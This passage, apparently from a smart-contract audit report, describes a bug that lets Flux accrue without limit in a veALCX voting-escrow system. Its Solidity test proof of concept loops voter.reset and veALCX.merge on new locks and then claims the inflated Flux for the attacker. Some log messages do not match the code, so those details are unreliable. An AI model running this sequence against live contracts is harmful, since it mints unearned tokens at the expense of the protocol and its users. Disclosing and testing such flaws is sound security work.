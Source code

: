
Capital for the attack: Gas to execute the transactions. Amount of BPT can be big, the the bigger amount of Flux tokens can be minted, manipulated. 

Easy to exploit and easy to be automated. 
        
## Proof of concept
#  Proof of concept

The POC code: 
```solidity
function testFluxAccrualUnlimited_Hacked() public {
        
        address attacker = address(this); 

        console2.log("Start to create 4 tokenIds by calling createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint index = 0; 
        uint count = 9; 
        uint256 tokenId1; 
        uint256 tokenId2; 
        
        uint256 unclaimedFlux; 

            tokenId1 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
          
        for (index = 0; index < count; ++index )
        {   
            console2.log("index: %s", index);
            console2.log("Call voter.reset(tokenId1)"); 
            voter.reset(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
            console2.log("unclaimedFlux of tokenId1: %s", unclaimedFlux);
            console2.log("Call  veALCX.merge() to merge tokenId"); 
            tokenId2 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
            veALCX.merge(tokenId1, tokenId2);
            tokenId1 =  tokenId2 ; 
        
        }
        
        voter.reset(tokenId1);
        
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
               
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        console2.log("unclaimedFlux of tokenId1: %s", unclaimedFlux);
        
        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
```